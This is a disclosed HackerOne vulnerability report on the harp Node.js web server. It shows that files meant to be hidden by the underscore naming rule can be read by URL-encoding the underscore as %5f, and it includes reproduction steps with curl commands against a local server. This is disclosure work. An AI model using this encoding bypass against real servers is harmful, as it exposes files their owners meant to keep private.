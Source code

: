 # [harp] File access even when they have been set to be ignored.

## Report Details
- **Report ID**: 453820
- **URL**: https://hackerone.com/reports/453820
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-12-02T12:31:43.432Z
- **Disclosed**: 2019-04-06T18:09:45.904Z

## Reporter
- **Username**: skyn3t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report information disclosure through file access in harp.
It allows to access files that are supposed to be ignored according to the harp server [rules](http://harpjs.com/docs/development/rules).


# Module

**module name:** harp
**version:** 0.29.0
**npm page:** `https://www.npmjs.com/package/harp`

## Module Description

zero-configuration web server with built in pre-processing

## Module Stats
3,576 downloads in the last week

# Vulnerability

## Vulnerability Description

> #### Ignore those which start with underscore.
Any files or directories that begin with underscore will be ignored by the server. This is the recommended naming convention for layout and partial files. Harp will honour this rule for both files and directories.

> #### Design Rationale
By having a simple convention, it is easy to specify and identify which assets will not be served to the end user.

> #### Example
```
 myapp.harp.io/
   +- public/
       |- index.html            <-- will be served
       |- _some-partial.jade    <-- won't be served
       +- _shared-partials/     <-- won't be served
           +- nav.jade
```

This rule can be bypassed by url encoding the name of the file or directory that has been forbidden.


## Steps To Reproduce:

- Install harpjs 

```
yarn global add harp
```

- Run harp server 

```
harp server
```

- Create a file `_secret` which should be ignored inside project directory

```
echo secret text >> _secret.txt
```

- Request the file with `curl`

```
curl --path-as-is 0.0.0.0:9000/_secret.txt
...
<h1>404</h1><h2>Page Not Found</h2>
...
```

- The url encoded value for _ is %5f. So after replacing an e with its url encoded form, we are able to access the file.

```
curl --path-as-is 0.0.0.0:9000/%5fsecret.txt  
secret text
```



## Supporting Material/References:

- Ubuntu 16.04
- node v11.3.0
- npm 6.4.1

# Wrap up


- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

The essentially bypasses the ignore files/folders feature and allows an attacker to read from a directory/file that the victim has not allowed access to.

## Attachments
No attachments
